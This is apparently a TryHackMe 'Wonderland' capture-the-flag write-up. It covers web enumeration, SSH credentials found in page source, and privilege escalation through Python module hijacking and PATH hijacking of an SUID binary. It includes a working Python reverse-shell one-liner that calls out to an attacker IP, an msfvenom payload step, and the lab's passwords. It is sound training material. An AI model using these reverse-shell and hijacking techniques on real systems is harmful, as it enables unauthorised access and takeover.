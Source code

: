 #### TryHackMe : https://tryhackme.com/room/wonderland
#Fall down the rabbit hole and enter wonderland.

First we do a simple Nmap scan and reveal only port 80 and 22 are open on this machine. After visiting the website, we can see an image of a white rabbit and the page tells us to follow it.


`gobuster dir --url http://10.10.97.210/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

After we find the /r/ dir, it tells us to keep going. I run the same command on /r/ and find /r/a/, from this point on i figured its probably /r/a/b/b/i/t/. When we open http://10.10.97.210/r/a/b/b/i/t/ We see a page telling us to open the door.

If we inspect the source of this page, we find `alice:HowDothTheLittleCrocodileImproveHisShiningTail` hidden in the source. Since the webserver is probably a dead-end, this is possibly SSH credentials to login with. so we try it.

ssh alice@$TARIP
password: HowDothTheLittleCrocodileImproveHisShiningTail

This logs us in successfully on the target machine.


with sudo -l (Using previous password) we can check what commands we can run as sudo
```
sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```
This means we can execute that exact command and be the user rabbit while doing it.

  `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

We can check in walrus_and_the_carpenter.py that it imports the package `import random`, maybe we can do somethign with this. In Python you can check paths on how the "packages" are initialized.

```
python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

This shows us that the first path python checks is '', so inside the home folder we should create a random.py which creates a reverse shell.


```
print('Hallo World!');
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.12.121",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh");
```

With the reverse shell, we are now logged in as Rabbit on the target machine!

This shows us a executeable called "teaParty" with the SUID bit set

We use "strings" on this and see that it calls /bin/echo and "date" in a relative path...
We craft a reverse shell executable with msfvenom and set the $PATH var to include the local path.

`export PATH=/home/rabbit:/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin`
and name the msfvenom elf "date".
This gives us a reverse shell as "hatter" in /home/hatter we see a password.txt and we now have shell access as hatter.

password.txt : WhyIsARavenLikeAWritingDesk?
User: hatter
